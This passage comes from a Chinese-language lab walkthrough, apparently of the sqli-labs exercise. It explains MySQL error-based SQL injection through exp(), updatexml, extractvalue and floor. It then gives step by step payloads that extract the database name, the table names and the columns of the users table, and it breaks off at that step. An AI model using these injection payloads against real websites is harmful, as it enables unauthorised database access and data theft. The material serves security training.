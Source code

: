 9. **exp()**

   EXP(x)函数计算e的x次方，即ex

   EXP()肯定是需要数字的,传入个字符串必然显错。

   ```
   id=1 and exp(~(select * from(select user())a))
   ```



#### 解题

1. **获取数据库**

   **updatexml & extractvalue()方法：**

   ```
   ?id=0' and updatexml(1, concat('~',database(),'~'), 1) --+
   
   ?id=0' and extractvalue(1,concat('~',database(),'~')) --+
   ```

   **floor报错方法：**

   ```
   ?id=-1' union select count(*),2,concat('~',(select database()),'~',floor(rand()*2))as a from information_schema.tables group by a --+
   ```

   库名为：security

2. **获取表**

   **updatexml & extractvalue()方法：**

   ```
   ?id=0' and updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) --+
   
   ?id=0' and extractvalue(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~')) --+
   ```

   **floor报错方法：**

   ```
   ?id=-1'union select count(*),1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
   ```

   表名有：emails,referers,uagents,users

3. **获取字段**

   **updatexml & extractvalue()方法：**

   ```
   ?id=0' and updatexml(1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'), 1) --+
   
   ?id=0' and extractvalue(1, concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~')) --+
   ```
